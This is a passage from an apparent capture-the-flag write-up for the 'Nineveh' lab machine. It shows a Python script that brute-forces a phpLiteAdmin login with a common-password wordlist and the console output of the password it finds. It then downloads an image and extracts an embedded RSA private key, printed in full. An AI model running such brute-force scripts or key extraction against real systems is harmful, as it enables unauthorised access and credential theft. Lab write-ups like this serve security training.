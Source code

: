 ```python
        r = requests.post(f"{url}:443/db/index.php", verify=False, data=data)
        return r.text
    except:
        pass

wordlist = open("/usr/share/seclists/Passwords/Common-Credentials/best1050.txt").read().split("\n")

for wd in wordlist:
    if "Incorrect password" in phpliteBF(wd):
        print(f"[-] Password => {wd}")
    else:
        print(f"[+] Password => {wd} found")
        break
```

I ran the script, and after a few minutes I found the password.

```console
root@kali:~/scripts# python3 phplitebf.py
...
[+] Password => password123 found
```

Listing the **secure_notes** directory I found an image, so I downloaded it.

```console
root@kali:~# wget --no-check-certificate https://nineveh.htb/secure_notes/nineveh.png
```

I found out a private and public key into the image and saved them in a file, and I noted that this keys belong to the user **amrois**.

```console
root@kali:~# strings nineveh.png | grep -A 26 "BEGIN RSA" | tee nineveh.priv
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```
